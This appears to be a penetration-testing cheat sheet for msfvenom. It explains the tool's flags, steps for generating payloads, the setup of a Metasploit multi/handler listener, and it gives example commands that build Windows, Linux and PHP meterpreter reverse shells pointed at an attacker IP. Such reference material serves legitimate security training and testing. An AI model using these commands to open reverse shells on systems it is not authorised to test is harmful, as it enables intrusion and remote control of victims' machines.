 **msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

| Option        | Description                                                                  |
| ------------- | ---------------------------------------------------------------------------- |
| **`-p`**      | Specify the payload (e.g., `windows/meterpreter/reverse_tcp`).               |
| **`OPTIONS`** | Set parameters such as `LHOST` (attacker’s IP) and `LPORT` (listening port). |
| **`-f`**      | Define the output format (e.g., `exe`, `elf`, `raw`, etc.).                  |
| **`-o`**      | Optional flag to specify an output file.                                     |

```bash
msfvenom -p <payload> OPTIONS -f <format> -o <output_file>
```

####  Steps to Generate Payloads

1. **Choose a Payload**

List all available payloads:

```bash
msfvenom -l payloads
```

 2. **Set Options**

Most payloads require options like `LHOST` (attacker’s IP) and `LPORT` (listening port). For example:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port>
```

 3. **Choose an Output Format**

List all available formats:

```bash
msfvenom -l formats
```

 4. **Generate and Save Payload**

Save the payload to a file:

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port> -f <format> -o <output_file_name>
```

5. **Set Up the Listener in msfconsole**

```bash
msfconsole
use exploit/multi/handler
# Set the payload to match the one generated with msfvenom
set payload <payload_name>
set LHOST <your_kali_ip> 
set LPORT 4444
exploit
```

#### Examples

```bash
# Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe
# Linux reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf -o reverse_shell.elf
# Linux ELF reverse shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
# PHP reverse shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
```
